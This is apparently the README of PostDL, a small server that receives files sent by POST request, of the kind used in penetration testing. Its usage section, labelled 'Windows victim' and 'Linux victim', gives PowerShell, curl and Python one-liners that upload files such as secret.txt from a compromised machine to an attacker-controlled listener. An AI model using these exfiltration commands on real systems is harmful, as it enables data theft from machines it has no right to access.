 ######
PostDL
######

| Retrieving files using post requests.

*******
Install
*******

.. code-block:: bash

    pipx install git+https://gitlab.com/charles.gargasson/PostDL.git@main
    # pipx uninstall postdl
    # pipx upgrade postdl

|

*****
Usage
*****

| Starting server using http or https

.. code-block:: bash

    postdl --ip 0.0.0.0 --port 8080
    ==> Listening 0.0.0.0:8080 

    postdl --ip 0.0.0.0 --port 8443 --tls
    ==> Listening 0.0.0.0:8443

|

| Windows victim

.. code-block:: powershell

    powershell -c "(New-Object System.Net.WebClient).UploadFile('http://4.3.2.1:8080/','C:\Users\BOB\Pictures\xyz.jpg')"

|

| Linux victim

.. code-block:: bash

    curl -F "file=@/etc/blabla/xyz.jpg" "http://4.3.2.1:80"
    curl -kF file=@/home/user/secret.txt https://4.3.2.1:8443
    python3 -c 'import requests;f = {"file": open("/tmp/HACKER.tar.gz", "rb")};r = requests.post("https://4.3.2.1:443", files=f, verify=False)'

|